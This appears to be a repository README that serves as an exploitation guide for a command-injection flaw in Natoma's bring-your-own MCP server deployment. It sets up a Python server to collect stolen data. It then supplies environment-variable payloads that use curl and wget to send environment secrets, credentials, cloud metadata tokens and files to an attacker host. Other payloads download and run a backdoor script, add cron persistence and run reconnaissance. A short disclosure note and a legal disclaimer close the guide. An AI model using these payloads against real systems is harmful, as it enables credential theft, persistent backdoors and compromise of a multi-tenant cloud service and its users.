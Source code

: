 # Natoma BYO Server Exploitation Guide

This repository contains a malicious MCP server designed to exploit the environment variable injection vulnerability in Natoma's BYO (Bring Your Own) server deployment process.

## Quick Start Exploitation

### Step 1: Deploy This Repository

1. **Fork/Clone this repository** to your GitHub account
2. **Make it public** (or ensure Natoma can access it)
3. **Note the repository URL** for use in Natoma

### Step 2: Set Up Collection Server

Start a simple HTTP server to collect exfiltrated data:

```bash
# Terminal 1: Start collection server
python3 -c "
from http.server import HTTPServer, BaseHTTPRequestHandler
import json
from datetime import datetime

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        print(f'[{datetime.now()}] GET from {self.client_address[0]}: {self.path}')
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'PWNED')
    
    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        data = self.rfile.read(length).decode('utf-8')
        print(f'[{datetime.now()}] POST from {self.client_address[0]}:')
        print(data)
        print('-' * 50)
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

HTTPServer(('0.0.0.0', 8080), Handler).serve_forever()
"
```

### Step 3: Create BYO Server in Natoma

1. **Go to Natoma**: https://natoma.app
2. **Login/Register** with any account
3. **Navigate to Apps** → **Add Custom App**
4. **Fill in the form**:

```json
{
  "name": "Security Compliance Scanner",
  "description": "Automated security scanning and compliance checking tool",
  "sourceType": "REPOSITORY",
  "repositorySource": {
    "repositoryUrl": "https://github.com/YOUR-USERNAME/mal-mcp.git",
    "branchName": "main",
    "workingDirectory": ".",
    "envVars": {
      "API_KEY": "legitimate_key_12345",
      "LOG_LEVEL": "info",
      "MALICIOUS_PAYLOAD": "$(curl http://YOUR-IP:8080/pwned)",
      "DATABASE_URL": "postgresql://$(whoami):$(hostname)@YOUR-IP:8080/exfiltrate",
      "SYSTEM_INFO": "$(env | base64 | curl -X POST -d @- http://YOUR-IP:8080/env-dump)"
    }
  }
}
```

**Replace YOUR-IP with your actual IP address or domain**

### Step 4: Monitor Exploitation

Watch your collection server for incoming requests. You should see:

1. **Initial beacon** from the `/pwned` endpoint
2. **System information** including username and hostname
3. **Environment variables dump** containing all build secrets

## Advanced Exploitation Scenarios

### Scenario A: Maximum Data Exfiltration

Use this payload to extract maximum information:

```json
{
  "envVars": {
    "STAGE1": "$(curl -s http://YOUR-IP:8080/stage1 && env | base64 | curl -X POST -d @- http://YOUR-IP:8080/all-env)",
    "CREDS": "$(env | grep -i 'key\\|token\\|secret\\|pass\\|credential' | curl -X POST -d @- http://YOUR-IP:8080/secrets)",
    "METADATA": "$(curl -H 'Metadata-Flavor: Google' http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token | curl -X POST -d @- http://YOUR-IP:8080/gcp-token || echo 'no-metadata')",
    "FILES": "$(find /tmp /var /opt -name '*key*' -o -name '*secret*' -o -name '*credential*' 2>/dev/null | head -5 | xargs cat | curl -X POST -d @- http://YOUR-IP:8080/files)"
  }
}
```

### Scenario B: Persistent Backdoor

Install a persistent backdoor in the deployed container:

```json
{
  "envVars": {
    "BACKDOOR": "$(wget http://YOUR-IP:8080/backdoor.sh -O /tmp/bd.sh && chmod +x /tmp/bd.sh && /tmp/bd.sh &)",
    "PERSISTENCE": "$(echo '*/5 * * * * curl http://YOUR-IP:8080/beacon' | crontab - 2>/dev/null || true)",
    "CLEANUP": "$(rm -f /tmp/bd.sh 2>/dev/null)"
  }
}
```

### Scenario C: Cloud Infrastructure Reconnaissance

Gather information about the cloud infrastructure:

```json
{
  "envVars": {
    "CLOUD_INFO": "$(curl -H 'Metadata-Flavor: Google' http://169.254.169.254/computeMetadata/v1/instance/ | curl -X POST -d @- http://YOUR-IP:8080/cloud-info)",
    "NETWORK": "$(ip route | curl -X POST -d @- http://YOUR-IP:8080/network)",
    "PROCESSES": "$(ps aux | curl -X POST -d @- http://YOUR-IP:8080/processes)"
  }
}
```

## What You'll Compromise

### During Build Process:
- **Google Cloud Build environment**
- **Service account credentials**
- **Build secrets and API keys**
- **Internal network access**
- **Other build artifacts**

### In Deployed Container:
- **Cloud Run container environment**
- **Runtime secrets**
- **Network access from Cloud Run**
- **Potential access to other Natoma services**

## Expected Results

When successful, you should see:

```
[2025-01-XX XX:XX:XX] GET from 34.XXX.XXX.XXX: /pwned
[2025-01-XX XX:XX:XX] POST from 34.XXX.XXX.XXX:
postgresql://buildkite-agent:gke-natoma-build-cluster@YOUR-IP:8080/exfiltrate

[2025-01-XX XX:XX:XX] POST from 34.XXX.XXX.XXX:
UEFUSD0vdXNyL2xvY2FsL2Jpbi... [base64 encoded environment variables]
```

This indicates:
- ✅ **Command injection successful**
- ✅ **Running on Google Cloud Build**
- ✅ **Environment variables exfiltrated**
- ✅ **Full access to build environment**

## Impact Assessment

This vulnerability allows you to:

- ✅ **Execute arbitrary code** on Google Cloud Build
- ✅ **Access internal networks** and services  
- ✅ **Steal credentials** and API keys
- ✅ **Install backdoors** in deployed containers
- ✅ **Compromise multi-tenant environment**
- ✅ **Potential full infrastructure takeover**

## Responsible Disclosure

This is a **CRITICAL VULNERABILITY** that affects:
- All Natoma users and customers
- Google Cloud Build infrastructure
- Multi-tenant security isolation
- Production systems and data

**Report this immediately** to:
- Natoma security team
- Google Cloud security team (if applicable)
- Relevant bug bounty programs

## Legal Notice

This tool is for **authorized security testing only**. Unauthorized use against systems you don't own is illegal and unethical. Always ensure you have proper written authorization before conducting security tests.

The authors are not responsible for any misuse of this tool or any damages that may result from its use.
